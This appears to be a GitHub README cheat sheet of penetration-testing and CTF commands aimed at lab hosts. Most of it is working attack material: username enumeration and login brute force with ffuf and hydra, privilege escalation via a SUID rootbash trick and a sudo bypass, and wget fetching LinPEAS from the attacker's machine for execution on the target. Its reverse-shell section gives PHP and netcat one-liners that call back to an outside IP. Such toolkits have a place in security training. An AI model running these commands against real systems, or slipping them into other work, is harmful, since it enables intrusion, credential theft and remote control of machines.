 
# 🛡️ Pentesting & CTF Toolkit

This repo contains a collection of useful commands, tools, and techniques used in Capture the Flag (CTF) challenges and real-world penetration testing scenarios.

---

## 🔍 Directory & File Enumeration

### Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-u https://bricks.thm/ -x php,html,xml,txt -k -t 20
```

---

## 👤 Username Enumeration

### FFUF for Username Enumeration
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt \
-X POST -d "username=FUZZ&email=x&password=x&cpassword=x" \
-H "Content-Type: application/x-www-form-urlencoded" \
-u http://10.10.206.92/customers/signup -mr "username already exists"
```

#### 🧠 Key Arguments
- `-w` – Wordlist for usernames
- `-X POST` – Set HTTP method to POST
- `-d` – POST data payload
- `-H` – Custom headers
- `-mr` – Match string for valid enumeration

---

## 🔐 Brute Force Login

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 \
-X POST -d "username=W1&password=W2" \
-H "Content-Type: application/x-www-form-urlencoded" \
-u http://10.10.206.92/customers/login -fc 200
```

### 💡 Tips
- Use `-fc 200` to filter failed login responses
- Match successful attempts when status code ≠ 200

---

## 🕵️‍♂️ Subdomain & Web Content Discovery

### DNS Subdomain Discovery
```bash
ffuf -u http://lookup.thm -H "HOST:FUZZ.lookup.thm" \
-w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 1
```

### Web Content Discovery
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web_Content/big.txt \
-u http://lookup.thm/FUZZ -e .php
```

---

## 💣 Password Cracking

### Hydra Examples
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agentsudo.thm -t 4

hydra -l miles -P ~/log1.txt skynet.thm http-post-form \
"/squirrelmail/src/login.php:username=^USER^&password=^PASS^:Wrong" -f
```

---

## 🐚 Shell Stabilization

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Background the shell
Ctrl + Z
stty raw -echo; fg
stty rows 38 columns 116
```

---

## 🧑‍💻 Privilege Escalation

### SUID Binaries
```bash
find / -perm /4000 2>/dev/null
```

### LinPEAS (Local Privilege Escalation Tool)
```bash
# On attack machine
python3.12 -m http.server

# On target
cd /tmp && wget http://<tun0-ip>:8000/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```

### Rootbash Escalation
```bash
echo "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash" > /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
/tmp/rootbash -p
```

---

## 🧰 Linux Enumeration

```bash
systemctl list-units | grep running
ps aux
sudo -l
ls -al /home/think
ls -la
find / -name "user.txt" 2>/dev/null
find / -name "root.txt" 2>/dev/null
```

---

## 🔧 Network Scanning

### Nmap
```bash
nmap -A -F <IP>
nmap -sV -sC --script vuln -oN scan.nmap <IP>
```

### RustScan
```bash
rustscan -a <target> -- -A
```

### Netcat
```bash
nc [ip] [port]
```

---

## 📡 SMB & Samba

```bash
smbclient '\\<ip>\anonymous'
smbclient -U milesdyson '\\skynet.thm\milesdyson'
enum4linux -a <ip>
```

---

## 🧨 Reverse Shells

### PHP Reverse Shell
```bash
nc -lvnp 7777
/usr/bin/php -r '$sock=fsockopen("10.8.27.206",7777);exec("sh <&3 >&3 2>&3");'
```

### Netcat Reverse Shell
```bash
nc -nvlp 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.27.206 1234 >/tmp/f
```

---

## 🔍 CVE Exploits

### CVE-2019-14287 – Sudo Bypass
```bash
sudo -u#-1 bash
```

---

## 📦 File & Data Handling

### SCP – Secure Copy
```bash
scp <user>@<ip>:/remote/path /local/path
```

### Base64 Decoding
```bash
echo "SGVsbG8=" | base64 -d
```

### Binwalk for Hidden Data
```bash
binwalk -e <filename>.png
```

### Zip Cracking
```bash
zip2john file.zip > hashes.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### Steghide
```bash
steghide extract -sf file.jpg
```

---

## ⚙️ Automation & Updates

### Schedule Linux Updates via Crontab
```bash
crontab -e
# Add this line for weekly updates at 2 AM Sunday
0 2 * * 0 /usr/bin/python3 /path/to/update_system.py
```

---

## 🧠 Useful Tools

- 🔧 [LinPEAS](https://github.com/peass-ng/PEASS-ng/releases) – Privilege escalation auditing
- 🔍 [WhatWeb](https://github.com/urbanadventurer/WhatWeb) – Website fingerprinting
- 🐚 [FFUF](https://github.com/ffuf/ffuf) – Web fuzzing
- 🕳️ [Gobuster](https://github.com/OJ/gobuster) – Directory & DNS busting

---

**Happy Hacking!** 💻🔥  
Stay ethical, stay sharp.
